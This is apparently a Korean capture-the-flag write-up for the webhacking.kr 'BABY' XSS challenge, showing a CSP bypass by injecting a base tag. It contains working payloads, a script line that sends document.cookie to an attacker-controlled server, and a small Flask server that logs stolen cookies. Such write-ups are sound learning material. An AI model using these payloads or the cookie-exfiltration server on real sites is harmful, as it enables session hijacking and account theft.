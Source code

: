 ```yaml
---
title: ["[Webhacking.kr] BABY (xss - 100)"]
date: 2024-12-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, xss, csp bypass]
---
```


XSS 문제이다.  

```
?inject=<script>alert(1)</script>

webhacking.kr/:3 Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-/oq+Byd+ch6evk6IFu16P+oAGTY='". Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to enable inline execution.
```
메인 페이지에 XSS가 동작하는지 테스트해보았다.  

CSP 정책이 `script-src` 디렉티브를 통해 스크립트 실행을 제한하고 있다.  
허용되는 스크립트는:
* nonce가 일치하는 스크립트
* unsafe-inline이 허용된 경우의 인라인 스크립트
* 특정 해시값을 가진 스크립트

base uri에 대한 정책이 없고, `script.js`를 호출하는 점을 사용하면 해결이 가능하다.  

`<base href="{MY_SERVER_IP}">`로 설정한다면, 문제의 로컬호스트가 아닌 내 서버의 `script.js`를 가져올 것이다.  


```javascript
location="http://{MY_SERVER_IP}/steal?cookie="+encodeURIComponent(document.cookie)
```  
서버의 루트 경로에 `script.js`를 생성하고,  

```python
from flask import Flask, request, send_file

app = Flask(__name__)

@app.route('/script.js')
def serve_script():
    return send_file('script.js')

@app.route('/steal')
def steal():
    cookie = request.args.get('cookie')
    print(f"Stolen cookie: {cookie}")
    return "ok"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```  
`server.py`를 python으로 실행하면 준비가 끝났다.

`report.php`에 `?inject=<base href="http://{MY_SERVER_IP}">` 를 넣으면 서버의 쿠키값이 내 서버로 전송된다.
